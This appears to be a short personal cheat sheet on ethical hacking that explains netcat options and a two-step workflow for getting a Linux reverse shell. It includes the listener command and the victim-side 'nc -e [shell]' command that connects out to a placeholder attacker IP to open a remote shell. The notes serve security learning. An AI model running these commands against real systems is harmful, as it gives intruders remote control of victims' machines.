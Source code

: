 # Ethical Hacking - Remote Access - Linux - Reverse Shell with Netcat

## Tools 
+ Netcat
+ Attacker System (Listening) : Outside of a firewall
+ Target/Victim System (Connecting) : Inside of a firewall

## Netcat

### Synopsis/Syntax 
```console
sudo nc {options}
```

### Parameters
#### Listener/Server
+ -l : Start listening for connection; Listener Mode
+ -n : Do not use DNS; only use IP address
+ -v : Verbose Mode; Show detailed information
+ -p : Specify ports to listen on; Try to keep firewall within the well known ports (under 1000)
+ -s : Specify source (Attacker) IP address to listen with
#### Client
+ -e [command] : Execute a command; Generally will be the shell

## WorkFlow
> Method/Order of Operation
- Reverse Shell Remote Connection/Access
    1. Start listener (server) to listen for a connection
	```console
	sudo nc -lnvp [listening-port] -s [listener-source-IP-address]
	```
    2. Connect to listener with target/victim (client)
	```console
	sudo nc -e [shell] [attacker-ip-address (to connect to)] [listening-port-number]
	```

## References
+ [YouTube | NetworkChuck | how to get remote access to your hacking targets // reverse shells with netcat (Windows and Linux!!)](https://www.youtube.com/watch?v=bXCeFPNWjsM)

## Resources

## Remarks
